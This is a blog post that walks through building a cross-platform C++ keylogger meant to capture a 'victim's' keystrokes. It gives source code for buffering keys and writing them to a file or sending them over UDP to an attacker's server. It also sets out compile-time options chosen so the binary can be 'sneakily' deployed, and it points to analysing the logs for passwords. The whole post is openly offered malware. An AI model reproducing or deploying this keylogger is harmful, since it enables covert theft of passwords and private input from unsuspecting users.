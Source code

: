 ```yaml
---
title: "keylogger: A Cross-Platform Keylogger"
date: 2023-11-13T11:04:37-08:00
description: "How to write a cross platform keylogger."
tags: ["cli-tools", "c++", "linux", "windows", "x11"]
---
```


If you're familiar with the [kbhell][1] application, you might realize that
kbhell is about 90% of the way to being a keylogger. Why not finish the job and
write a proper, cross platform keylogger that captures a victim's every
keystroke (for science reasons, of course)?

## The Requirements

So there's the obvious requirement of capturing user keystrokes. When you think
about the fact that keyboards have different layouts, there are different
language sets, etc., the task becomes challenging.

Another interesting issue that comes up is how do you record the keystrokes? You
could write it to a hidden file on the victim's PC. Yeah that works but then
you'd need a way of getting that file off their PC. Another idea is to transmit
the data over the network. If sending data over the network, what should trigger
packet transmission? Do you send when you hit some packet size threshold or do
you send data at a fixed frequency?

As an answer to these questions, this keylogger will adhere to the following
requirements:

1. Record user keystrokes that correspond to printable characters as defined by
   the currently installed C locale.
2. Support recording to a plaintext file on the victim PC.
3. Support recording to a UDP socket.
4. Support a configurable recording mode.
5. Support a configurable capture frequency.

The next sections discuss the implementation of these requirements.

## Capturing Keystrokes

The ["Keyboard Hell"][1] article gives coverage of this topic. The basic idea is
that the X11 event system on Linux and global hooks on Windows intercept
keystrokes without any noticeable effect on the rest of the system.

You can use the `kbhell` keystroke capture code in `keylogger`'s implementation.
The only difference is that instead of playing a sound bite on every keystroke,
you're pushing characters to a recorder object's character buffer. You only push
printable characters as defined by [`std::isprint`][2]. The latter detail is
limiting in that you won't be able to completely playback the victim's key
history. That said, you can still analyze the output to find passwords, emails,
usernames, etc.

## Recording Modes

Based on the initial requirements, you want to support two recording modes: text
and network. Text mode captures character data to a plaintext file on the
victim's PC. Network mode transmits the character data over the network as UDP
packets from the victim's PC to the attacker's server.

Each mode has a recorder type object implementing the `Recorder` interface:

```cpp
/*!
 * \class Recorder
 * \brief Recorder defines an interface for buffering and transmitting user
 *        keystrokes.
 */
class Recorder {
 public:
  /*!
   * \brief Construct a recorder object with a key limit of \p key_limit.
   * \param key_limit The maximum number of keys the recorder will store in
   *                  memory.
   * \throws std::runtime_error When given a zero or negative \p key_limit
   *                            value.
   */
  explicit Recorder(int key_limit);

  Recorder() = delete;
  virtual ~Recorder() = default;
  Recorder(const Recorder&) = default;
  Recorder& operator=(const Recorder&) = default;
  Recorder(Recorder&&) = default;
  Recorder& operator=(Recorder&&) = default;

  /*!
   * \brief Buffer the char \p character in memory.
   * \details Characters are buffered in memory. If the buffer limit has been
   *          reached, the buffer will be emptied via a call to Transmit() and
   *          then \p character will be added to the buffer.
   * \param character A printable character as classified by the currently
   *                  installed C locale.
   * \throws std::runtime_error When BufferKeyPress() must call Transmit() to
   *                            make room for \p character in the buffer but
   *                            Transmit() fails.
   */
  void BufferKeyPress(char character);

  /*!
   * \brief Transmit keystroke buffer contents to the recording medium.
   */
  virtual void Transmit() = 0;

 protected:
  using CharList = std::vector<char>;

  int num_keys_;  /**< Number of keystrokes currently buffered. */
  CharList keys_; /**< Keystroke char buffer. */
};
```

`Recorder` types all maintain a fixed size `char` buffer called `keys_`. On
construction, the user specifies the size of the buffer via the `key_limit`
constructor parameter. The user can add characters to the buffer via the
`BufferKeyPress()` method. When the buffer is full, `BufferKeyPress()` calls
`Transmit()` and then inserts the new character. `Transmit()` is a method
implemented by all recorder types. `Transmit()` writes buffered data to some
recording medium (for example, a text file or a socket).

As you might have guessed by now, each recording mode has an associated
`Recorder` subtype. The text file recorder has the `FileRecorder` type and the
UDP recorder has the `NetworkRecorder` type. Below is the implementation of the
text and network recorders' `Transmit()` method.

```cpp
void FileRecorder::Transmit() {
  if (!num_keys_) {
    return;
  }

  /* We open and close the log file everytime Transmit() is called because we
   * want to ensure in the case the program is stopped abruptly, we will have a
   * chance at saving some keystroke data. */
  std::ofstream log_handle(log_path_.c_str(), std::ios_base::app);
  if (!log_handle) {
    throw std::runtime_error("unable to open key log file");
  }
  log_handle.write(keys_.data(), num_keys_);
  num_keys_ = 0;
}

void NetworkRecorder::Transmit() {
  if (!num_keys_) {
    return;
  }

  int bytes_sent = tx_socket_.Send(keys_.data(), num_keys_);
  if (bytes_sent != num_keys_) {
    std::cerr << "warning: only" << bytes_sent << "/" << num_keys_
              << "bytes sent" << std::endl;
  }
  num_keys_ = 0;
}
```

You'll notice that `FileRecorder::Transmit()` opens and closes the file handle
each time its called. Not the most efficient method of performing file IO.
However, the comment in the code explains the reasoning. When you halt the
keylogger, there's no guarantee that the data sent via the stream gets written
to the file. Explicitly closing the file handle flushes the stream contents. In
retrospect, this would have been a good use case for using
[`std::ostream::flush`][3].

The `NetworkRecorder` uses a wrapper around a Linux/Windows UDP socket to
transmit data. You can look at the UDP wrapper [source][4] to get the full
details.

## Configuration

You might expect to pass configuration via command line args. However, when you
think about the deployment use cases for a keylogger, having to inject your
keylogger's binary plus a bunch of CLI args doesn't sound appealing. To solve
this issue, `keylogger` is compile time configurable. Below are the
configuration options:

```cpp
enum RecorderType {
  kText = 0, /* Record to text file. */
  kNetwork,  /* Record to UDP socket. */
};

/* These are essentially your program options. You want to build your options
 * into the executable to make deployment of the keylogger easier down the line
 * (i.e., you don't want to have to sneakily deploy/inject the keylogger
 * executable AND a bunch of CLI options). */

/* Recording medium. */
#define RECORDER_TYPE RecorderType::kText
/* Max number of keystrokes buffered in memory before the data is written to the
 * recorder. */
#define RECORDER_KEY_LIMIT 8
/* Keystroke log file (RecorderType::kText only). */
#define RECORDER_FILE_PATH "/home/ieg/dev/keylogger/bin/keys.txt"
/* UDP socket IPv4 address and port of the remote server collecting keystroke
 * data (RecorderType::kNetwork only). */
#define RECORDER_IP "127.0.0.1"
#define RECORDER_PORT 5555
```

The keylogger user can select their recording mode and then set options specific
to that mode. One can edit the `keylogger.cpp` file directly or pass the
relevant options to the compiler (for example, `-DRECORDER_KEY_LIMIT=256`).

Regardless of the mode selected, you must always set `RECORDER_KEY_LIMIT`.
`RECORDER_KEY_LIMIT` controls the size of the keystroke buffer and therefore the
frequency of transmission. Set this value too low and the keylogger might be a
bit too noisey (that is, produces a lot of net traffic or disk IO overhead). Set
it too high and you might not see any data transmitted. The sweet spot is up to
the attacker to decide.

## Conclusion

Below is a demo showing `keylogger` in action on a Linux system.

{{< video src="/posts/2023/keylogger/keylogger-demo.mp4" type="video/mp4" preload="auto" >}}

The project includes `key_capture.py`, a script that prints captured key data
from a remote keylogger running in network mode. During the demo, the script
captures keystrokes from the NeoVim editor.

The toughest part of developing the keylogger is by far the capture of global
keystrokes which is highly dependent on the OS and display technology in use.
Beyond that, you have to decide how to record keystrokes. Be responsible with
how you use this or any keylogger!

The complete project source with build instructions, usage, etc. is available on
GitHub under [keylogger][7].

[1]: https://programmador.com/posts/2023/keyboard-hell/
[2]: https://en.cppreference.com/w/cpp/string/byte/isprint
[3]: https://en.cppreference.com/w/cpp/io/basic_ostream/flush
[4]: https://github.com/ivan-guerra/keylogger/blob/master/include/io/udp/udp_socket.h
[5]: https://github.com/ivan-guerra/keylogger/blob/master/src/io/udp/linux_udp_socket.cpp
[6]: https://github.com/ivan-guerra/keylogger/blob/master/src/io/udp/windows_udp_socket.cpp
[7]: https://github.com/ivan-guerra/keylogger.git
